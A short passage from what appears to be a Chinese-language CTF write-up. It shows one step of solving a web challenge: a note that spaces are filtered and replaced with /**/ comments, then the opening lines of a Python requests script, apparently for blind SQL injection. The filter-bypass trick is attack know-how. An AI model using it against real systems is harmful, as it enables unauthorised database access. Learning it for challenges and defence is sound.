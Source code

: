    <img src="images/image-20210106202418082.png" alt="image-20210106202418082" width="50%;" />

   7. 因此本题的脚本为：

      注意，上面bp的结果显示会过滤空格，所以这里使用/**/替代空格。

      ```python
      #coding:utf-8
      import requests
      import time
      import string
      url = ""
      str_list = "_" + string.ascii_lowercase + string.ascii_uppercase + string.digits
      